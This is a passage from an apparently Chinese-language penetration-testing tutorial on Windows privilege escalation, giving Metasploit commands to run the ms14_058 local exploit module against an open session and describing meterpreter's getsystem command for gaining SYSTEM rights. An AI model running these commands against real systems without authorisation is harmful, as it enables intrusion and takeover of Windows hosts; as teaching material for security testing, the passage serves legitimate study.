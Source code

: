 

2.3.2 使用msf的提权模块

```
use exploit/windows/local/ms14_058_track_popup_menu
set session 2
set target xx
exploit
```

![image-20230105053849640](../../images//image-20230105053849640.png)



2.3.3 getsystem

在meterpreter中使用getsystem指令可以尝试进行自动化提权(下图为失败的样子，但可看到对应的方式)。

![image-20230105054115924](../../images//image-20230105054115924.png)

此指令同样可用于获取到administrator后切换至system用户。
